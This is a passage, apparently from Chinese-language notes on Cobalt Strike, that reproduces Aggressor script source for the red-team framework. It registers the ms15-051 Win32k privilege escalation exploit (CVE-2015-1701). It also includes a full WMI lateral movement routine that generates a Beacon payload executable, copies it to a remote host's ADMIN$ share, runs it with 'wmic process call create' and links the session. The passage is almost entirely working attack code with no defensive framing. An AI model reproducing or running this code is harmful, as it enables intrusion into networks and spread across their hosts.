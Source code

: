 ```shell
}
```

## Privilege Escalation (Spawn a Session)

> 官方权限提升，产生新会话

源码：

```shell
beacon_exploit_register("ms15-051", "Windows ClientCopyImage Win32k Exploit (CVE 2015-1701)", &ms15_051_exploit);
```



## Lateral Movement (Spawn a Session)

> 官方横向移动源码

```shell
beacon_remote_exploit_register("wmi", "x86", "Use WMI to run a Beacon payload", lambda(&wmi_remote_spawn, $arch => "x86"));
beacon_remote_exploit_register("wmi64", "x64", "Use WMI to run a Beacon payload", lambda(&wmi_remote_spawn, $arch => "x64"));
```

```shell
# $1 = bid, $2 = target, $3 = listener
sub wmi_remote_spawn {
	local('$name $exedata');

	btask($1, "Tasked Beacon to jump to $2 (" . listener_describe($3) . ") via WMI", "T1047");

	# we need a random file name.
	$name = rand(@("malware", "evil", "detectme")) . rand(100) . ".exe";

	# generate an EXE. $arch defined via &lambda when this function was registered with
	# beacon_remote_exploit_register
	$exedata = artifact_payload($3, "exe", $arch);

	# upload the EXE to our target (directly)
	bupload_raw!($1, "\\\\ $+ $2 $+ \\ADMIN\$\\ $+ $name", $exedata);

	# execute this via WMI
	brun!($1, "wmic /node:\" $+ $2 $+ \" process call create \"\\\\ $+ $2 $+ \\ADMIN\$\\ $+ $name $+ \"");

	# assume control of our payload (if it's an SMB or TCP Beacon)
	beacon_link($1, $2, $3);
}
```


